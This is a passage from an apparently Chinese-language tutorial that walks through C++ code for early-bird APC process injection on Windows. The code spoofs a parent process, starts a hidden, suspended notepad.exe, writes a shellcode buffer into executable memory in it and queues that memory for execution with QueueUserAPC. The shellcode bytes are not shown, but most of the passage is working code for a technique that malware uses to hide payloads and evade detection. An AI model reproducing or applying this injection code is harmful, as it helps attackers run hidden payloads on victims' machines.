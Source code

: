 然后`ZeroMemory`置空

```c++
ZeroMemory(&sInfoEX, sizeof(STARTUPINFOEXA)); 
```

使用`InitializeProcThreadAttributeList`为线程进程创建初始化指定的属性列表，注意第三个参数保留必须为0

```c++
InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
```

`HeapAlloc`在堆里面分配内存，`GetProcessHeap`检索调用进程默认堆的句柄

```c++
sInfoEX.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT); 
```

然后更新指令属性

```c++
UpdateProcThreadAttribute(sInfoEX.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL); 
```

创建进程

```c++
CreateProcessA("C:\\Windows\\System32\\notepad.exe", 
               NULL, 
               NULL, 
               NULL, 
               TRUE, 
               CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
               NULL, 
               NULL, 
               reinterpret_cast<LPSTARTUPINFOA>(&sInfoEX),
               &pInfo);
```

分配内存并写入内存

```c++
//分配内存
LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE); 

SIZE_T* lpNumberOfBytesWritten = 0;

//写入内存
BOOL resWPM = WriteProcessMemory(pInfo.hProcess, lpBaseAddress, (LPVOID)shellCode, sizeof(shellCode), lpNumberOfBytesWritten); 
```

进行APC调用

```c++
//APC调用
QueueUserAPC((PAPCFUNC)lpBaseAddress, pInfo.hThread, NULL); 
```
